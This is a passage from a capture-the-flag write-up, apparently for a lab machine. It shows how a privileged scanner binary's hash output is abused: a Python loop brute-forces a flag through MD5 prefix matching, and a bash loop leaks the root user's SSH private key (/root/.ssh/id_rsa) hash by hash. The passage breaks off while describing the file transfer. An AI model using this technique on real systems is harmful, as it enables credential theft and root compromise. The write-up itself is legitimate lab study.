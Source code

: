 ```python
for h in hashes:
    for c in allchars:
        test_flag = flag + c
        test_hash = md5hash(test_flag)
        if test_hash == h:
            print("Flag is:", test_flag)
            flag += c
            break
```

<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

This would eventually get the correct hash out for us to submit.

### Key Brute Force -> Root Shell

I felt a bit weird just capturing the root flag, so let's modify our script a bit more to get the private SSH key of the `root` user.&#x20;

{% code overflow="wrap" %}
```bash
greg@intentions:/opt/scanner$ for i in {1..3000}; do ./scanner -p -s 2 -c /root/.ssh/id_rsa -l $i >> /tmp/sshkey.txt; done 
## random guess of 3000 characters
```
{% endcode %}

The 3000 limit would trigger a lot of errors since it attempts to read more characters than actually present, so we can just Ctrl + C it when that happens. It still generates the file containing all debug hashes properly.&#x20;

We can then transfer this to our machine via hosting the `output.txt` file on a Python HTTP server on the machine, and doing some `awk` magic on it to get it into Python list format:
